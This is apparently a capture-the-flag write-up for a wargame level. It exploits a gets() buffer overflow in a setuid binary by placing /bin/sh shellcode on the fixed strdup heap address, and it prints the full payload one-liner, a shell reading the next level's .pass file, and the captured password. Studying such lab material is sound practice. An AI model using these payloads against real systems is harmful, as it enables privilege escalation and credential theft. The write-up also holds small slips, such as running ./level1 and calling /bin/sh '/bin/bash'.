 Execute the *level2* binary:

```bash
./level1
abcd
```

```
```

> Note the *level2* binary read user input from stdin like the *level1*.

```gdb
disass main
```

> Use __set disassembly-flavor intel__ command to set the intel syntax.

```gdb
Dump of assembler code for function main:
   0x0804853f <+0>:	    push   ebp
   0x08048540 <+1>:	    mov    ebp,esp
   0x08048542 <+3>:	    and    esp,0xfffffff0
   0x08048545 <+6>:	    call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
```

Check the *p* function called from the main:

```gdb
disass p
```

```gdb
Dump of assembler code for function p:
...
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>     ; call gets
...
   0x080484fb <+39>:	and    eax,0xb0000000           ; check if the return address
   0x08048500 <+44>:	cmp    eax,0xb0000000           ; start by 0xb...
   0x08048505 <+49>:	jne    0x8048527 <p+83>         ; continue to exit if don't match
...
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>   ; print the return adress
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>    ; exit the program

...
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax      ; copy the input string from the stack to
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>   ; to a new address returned in eax
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

Like in the *level1*, the vulnerable function *gets* is called.

But if the saved return address eip is changed in the stack and start by *0xb...* (AND comparaison), the program print this return address and exit.

And because the local addresses of the the current stack frame start by *0xb...*, we can't point the return address to potential writed instructions in local.

So for continue the program after an potential overwrite, the return address can't start by *0xb...*.

Next, the *strdup* is called. After multiple runs, note the address returned by *strdup* is always the same:

```gdb
break *0x80484ea
break *0x804853d
run
jump *0x80484f2
info register eax
```

```gdb
eax            0x804a008        134520840
```

The strdup return always the same address because the [ASLR](https://www.techtarget.com/searchsecurity/definition/address-space-layout-randomization-ASLR#:~:text=Address%20space%20layout%20randomization%20(ASLR)%20is%20a%20memory%2Dprotection,executables%20are%20loaded%20into%20memory.) is not active:

```bash
file ./level2
```

```
./level2: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x0b5bb6cdcf572505f066c42f7be2fde7c53dc8bc, not stripped
```

> *LSB executable* means the program [doesn't implement ASLR](https://unix.stackexchange.com/questions/89211/how-to-test-whether-a-linux-binary-was-compiled-as-position-independent-code).

So the address returned by strdup is always __0x804a008__ and not start by *0xb...*.

The solution is to overwrite the saved return address in the stack to point to the new allocated address and put in this new a [shellcode](https://en.wikipedia.org/wiki/Shellcode).

Choose [this](https://shell-storm.org/shellcode/files/shellcode-585.html) shellcode:

```
\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68 + \x00
```

> Add *\x00* to end the string "/bin/bash"

To overwrite the saved return address (eip), have to calculate the difference between the buffer address given to *gets* and the return address saved on the top of the stack:

```gdb
break *0x080484ed
run
info register eax
info frame
```

```gdb
eax            0xbffff5dc       -1073744420
...
 Saved registers:
  ebp at 0xbffff628, eip at 0xbffff62c
...
```

> saved eip - eax = 0xbffff62c - 0xbffff5dc = 3221222956 - 3221222876 = __80 bytes__

To overwrite the saved eip return address, the input need to have a length of 80 bytes, starting by the shellcode that needs to bed executed followed by the value we want (here the *run* function address).

> Note the shellcode is going to be written twice: first in the local stack frame with *gets* to reach the return address, and after in the heap with *strdup* where it will be executed later (that's what interests).

- __26__ (26/80) bytes: shellcode
- __54__ (80/80) bytes: padding
- __04__ address bytes: reversed address from the *strdup* call

> The address value need to be reversed because the stack is writed from the top to the bottom, and next it's readed in the opposite way (from the bottom to the end): (0x)804a008 > "\x08\xa0\x04\x08"

```bash
(echo -e "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x08\xa0\x04\x08" ; cat ) | ./level2
cat /home/user/level3/.pass
exit
```

> Use __cat__ to keep stdin open.

```
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```